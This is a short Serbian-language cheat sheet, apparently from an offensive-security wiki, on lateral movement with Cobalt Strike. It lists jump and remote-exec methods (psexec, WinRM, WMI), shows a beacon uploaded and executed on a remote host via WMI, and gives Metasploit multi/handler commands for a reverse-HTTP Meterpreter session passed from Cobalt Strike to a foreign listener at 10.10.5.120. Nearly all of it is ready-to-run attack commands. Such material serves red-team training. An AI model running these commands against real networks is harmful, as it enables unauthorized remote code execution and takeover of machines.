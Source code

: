 # Lateralno kretanje
## Ako je token kreiran, biće korišćen
jump [metoda] [cilj] [slušalac]
## Metode:
## psexec                    x86   Koristi uslugu za pokretanje artefakta Service EXE
## psexec64                  x64   Koristi uslugu za pokretanje artefakta Service EXE
## psexec_psh                x86   Koristi uslugu za pokretanje PowerShell jednolinije
## winrm                     x86   Pokreće PowerShell skriptu putem WinRM-a
## winrm64                   x64   Pokreće PowerShell skriptu putem WinRM-a

remote-exec [metoda] [cilj] [komanda]
## Metode:
<strong>## psexec                          Daljinsko izvršavanje putem Service Control Manager-a
</strong>## winrm                           Daljinsko izvršavanje putem WinRM-a (PowerShell)
## wmi                             Daljinsko izvršavanje putem WMI-a

## Da biste izvršili beacon sa wmi (nije u jump komandi), samo otpremite beacon i izvršite ga
beacon> upload C:\Payloads\beacon-smb.exe
beacon> remote-exec wmi srv-1 C:\Windows\beacon-smb.exe


# Prosledi sesiju Metasploitu - Putem slušaoca
## Na Metasploit hostu
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
msf6 exploit(multi/handler) > set LHOST eth0
msf6 exploit(multi/handler) > set LPORT 8080
msf6 exploit(multi/handler) > exploit -j

## Na Cobalt: Slušaoci > Dodaj i postavi Payload na Foreign HTTP. Postavi Host na 10.10.5.120, Port na 8080 i klikni Sačuvaj.
beacon> spawn metasploit
## Možete spawn-ovati samo x86 Meterpreter sesije sa foreign slušaocem.

